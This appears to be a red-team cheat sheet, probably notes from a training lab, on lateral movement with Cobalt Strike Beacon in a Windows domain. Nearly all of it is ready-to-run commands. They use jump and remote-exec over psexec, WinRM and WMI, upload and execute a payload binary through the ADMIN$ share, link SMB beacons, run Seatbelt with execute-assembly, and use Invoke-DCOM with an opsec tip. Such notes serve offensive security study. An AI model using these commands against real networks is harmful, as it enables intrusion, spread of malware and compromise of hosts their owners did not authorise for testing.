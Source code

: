 # Lateral Movement

# using Jump

    beacon> jump psexec/psexec64/psexec_psh/winrm/winrm64 ComputerName beacon_listener

# Using remote exec

    beacon> remote-exec psexec/winrm/wmi ComputerName <uploaded binary on remote system>

# Example Windows Management Instrumentation (WMI)

    beacon> cd \\web.dev.cyberbotic.io\ADMIN$
    beacon> upload C:\Payloads\smb_x64.exe
    beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
    beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10

# Executing .Net binary remotely 

    beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe OSInfo -ComputerName=web

# Invoke DCOM (better opsec)

    beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
    beacon> powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
    beacon> link web.dev.cyberbotic.io agent_vinod

NOTE: While using remote-exec for lateral movement, kindly generate the windows service binary as psexec creates a windows service pointing to uploaded binary for execution 
